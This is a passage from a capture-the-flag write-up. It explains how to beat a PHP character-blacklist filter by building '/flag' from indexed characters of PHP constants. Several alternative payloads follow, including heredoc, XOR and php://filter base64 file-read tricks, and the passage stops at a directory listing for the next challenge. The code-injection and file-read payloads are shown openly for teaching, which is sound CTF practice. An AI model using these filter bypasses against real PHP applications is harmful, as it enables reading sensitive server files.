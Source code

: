 ```$filtered = str_replace(['$', '(', ')', '`', '"', "'", "+", ":", "/", "!", "?"], '', $_GET['input']);```
I try all of them and yeah we need only 5 letters at all is '/flag'

Try PHP_EXTENSION_DIR:

![image](https://hackmd.io/_uploads/HkMVj0qBeg.png)

so we have /, l, a, g

Try PHP_SAPI:

![image](https://hackmd.io/_uploads/Sy5wiCcHgg.png)

and we have f and our payload is

```php
include PHP_EXTENSION_DIR[0].PHP_SAPI[0].PHP_EXTENSION_DIR[5].PHP_EXTENSION_DIR[8].PHP_SAPI[6]; time
```

Time to capture the flag

![image](https://hackmd.io/_uploads/HkfN2R9Slx.png)

### Other interesting solutions

```php
include <<<___%0D\x2fflag%0D___;%0Da
```

```php
include DIRECTORY_SEPARATOR . flag;#
```

```php
include x__X_ ^ W9398;# (genius)
```

```php
echo require<<<EOF%0aphp\72\57\57filter\57read=convert.base64-encode\57resource=\57flag%0aEOF; time
```

## web/Silent Profit

```
.
└── web-silent-profit
    ├── bot
    │   ├── bot.js
    │   ├── Dockerfile
    │   ├── package.json
    │   └── package-lock.json
    ├── docker-compose.yml
    └── html
        └── index.php

4 directories, 6 files
```
